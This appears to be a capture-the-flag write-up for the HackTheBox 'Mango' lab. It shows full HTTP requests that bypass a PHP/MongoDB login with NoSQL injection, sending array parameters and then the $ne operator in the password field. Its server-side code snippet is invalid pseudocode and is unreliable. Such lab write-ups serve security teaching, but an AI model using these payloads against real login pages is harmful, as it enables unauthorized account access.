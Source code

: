 So like a **SQL**  traditional  the php send the login parameters (username and password) in a post.  The operator **$ne** is in for ****NoSQLI**** like **single quotes**  is in for **SQLI** .  How the php handle with the **NoSQL** query is the key to bypass the login portal.

In the client side  we see a post with username and password. In the server side, the **NoSQL** database, deal with this way:

```bash
$user->find_name(array(
	"username" == "$user"
));
$pass->find_password(array(
	"password" == "$password"
));

```

After a bit of research in this [links](##Reference-Links) I can understanding how deal with that. The site is running php, so we can use **Type Juggling**. This can be done send a **"[]"**  which makes **PHP** interpret and use them like a array. Why that is so important ? Because can be used to  bypass authentication mechanism, if the code of this comparison have some failure:

```php+HTML
POST / HTTP/1.1
Host: staging-order.mango.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://staging-order.mango.htb/
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
Connection: close
Cookie: PHPSESSID=mhjjgas0rehghidc43tabutvin
Upgrade-Insecure-Requests: 1

username[]=admin&password[]=admin&login=login
```

We send a **array** to application and not receive anything different as usual. Now we make a use of **$ne**. This operator is used to **mango db** to compare values. So lets try it:

```php+HTML
POST / HTTP/1.1
Host: staging-order.mango.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://staging-order.mango.htb/
Content-Type: application/x-www-form-urlencoded
Content-Length: 46
Connection: close
Cookie: PHPSESSID=mhjjgas0rehghidc43tabutvin
Upgrade-Insecure-Requests: 1

username=admin&password[$ne]=admin&login=login
```
